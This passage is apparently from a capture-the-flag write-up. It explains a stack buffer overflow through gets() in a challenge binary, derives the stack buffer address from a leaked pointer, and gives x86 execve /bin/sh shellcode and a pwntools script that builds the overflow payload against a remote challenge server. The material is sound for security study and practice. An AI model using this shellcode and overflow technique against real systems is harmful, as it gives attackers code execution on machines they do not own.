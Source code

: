 However we can't overwrite the return address in `read_option`. However we can try in `get_name` since it uses a call to `gets`.
```
lea     eax, [ebp-0x32 {var_36}]
push    eax {var_36} {var_3c}
call    gets
```
So now we just need to put padding data between ebp-0x32 and ebp+0x4 and then we can replace the return address with the buffer address containing our shellcode. This would be the payload:
```
shellcode = asm(""" xor eax, eax
                    xor ecx, ecx
                    xor edx, edx
                    push ecx
                    push 0x68732f2f
                    push 0x6e69622f
                    mov al, 0x0b
                    mov ebx, esp
                    int 0x80 """)

padding = b'A'*(0x32 + 0x4 - len(shellcode)) # from ebp-0x32 to ebp+0x4

payload = shellcode + padding + p32(buffer_addr)
```
So this will replace the return address with the address of the buffer containing the shellcode. But. Where is this buffer relative to the address we leaked?
We received ebp-0xc, so we add 0xc to get the ebp value used during the lifetime of the `read_option` function. As noted earlier the esp is at ebp-0x70, so we subtract 0x70. Now when `get_name` is called, the eip (return address) is pushed onto the stack and so is the ebp. So this is another 0x8 subtracted from esp before its value is moved into `get_name`'s ebp. We know the buffer is at ebp-0x32 so subtract 0x32 and we now have the address of the buffer.
Exploit:
```
from pwn import *

p = remote('plsdonthaq.me', 4002)

p.recvuntil('> ')
p.sendline('3')

# dummy data to satisfy the >= 0x50 strlen check
p.sendline(b'A'*0x50)

p.recvuntil('at offset ')
read_option_ebp_0xc = int(p.recvline().rstrip(), 16)
read_option_ebp = read_option_ebp_0xc + 0xC
read_option_esp = read_option_ebp - 0x70 # 0x70 is size of stack frame
get_name_ebp = read_option_esp - 0x8 # account for push eip and push ebp
get_name_buffer = get_name_ebp - 0x32 # buffer is at ebp-0x32

p.sendline('1')

# taken from my war3 shellz solution
shellcode = asm(""" xor eax, eax
                    xor ecx, ecx
                    xor edx, edx
                    push ecx
                    push 0x68732f2f
                    push 0x6e69622f
                    mov al, 0x0b
                    mov ebx, esp
                    int 0x80 """)

padding = b'A'*(0x32 + 0x4 - len(shellcode)) # from ebp-0x32 to ebp+0x4
bof_payload = shellcode + padding + p32(get_name_buffer)
```